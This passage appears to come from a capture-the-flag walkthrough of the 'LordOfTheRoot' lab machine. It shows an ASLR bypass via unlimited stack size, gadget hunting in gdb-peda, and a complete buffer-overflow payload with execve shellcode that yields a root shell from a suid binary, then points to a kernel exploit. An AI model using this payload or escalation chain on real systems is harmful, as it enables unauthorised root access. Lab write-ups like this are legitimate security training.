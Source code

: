 After some googling, I found a [trick to disable ASLR](https://www.exploit-db.com/exploits/39669/). On a vulnerable 32 bit system, ASLR doesn't always randomize the mmap base address when the stack size is set to unlimited. I verified that it works:

``` 
smeagol@LordOfTheRoot:/tmp$ ulimit -s unlimited
smeagol@LordOfTheRoot:/tmp$ ldd file 
	linux-gate.so.1 =>  (0x40024000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x4003d000)
	/lib/ld-linux.so.2 (0x40000000)
smeagol@LordOfTheRoot:/tmp$ ldd file 
	linux-gate.so.1 =>  (0x40024000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x4003d000)
	/lib/ld-linux.so.2 (0x40000000)
```


I tweaked the exploit again, but I still couldn't hit on a valid ESP address. In the end, I used Peda to help me locate a *jmp esp* address:

``` 
gdb-peda$ jmpcall esp
Not found
gdb-peda$ jmpcall esp libc
0x4003ea85 : jmp esp
```

Adjusted the exploit again, and it worked:

``` 
gdb-peda$ r $(python -c 'print "A" * 171 + "\x85\xea\x03\x40" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
Starting program: /tmp/file $(python -c 'print "A" * 171 + "\x85\xea\x03\x40" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
process 5184 is executing new program: /bin/dash
$ whoami
[New process 5187]
process 5187 is executing new program: /usr/bin/whoami
smeagol
$ [Inferior 2 (process 5187) exited normally]
Warning: not running or target is remote
```

To gain root, we need to exploit the real suid binary:

``` 
smeagol@LordOfTheRoot:/SECRET/door2$ ./file $(python -c 'print "A" * 171 + "\x85\xea\x03\x40" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
# whoami
root
```

## Privilege escalation method #3 - kernel exploit

Lastly, we're back to the [overlayfs exploit](https://www.exploit-db.com/exploits/39166). It's just a matter of download, compile, run:
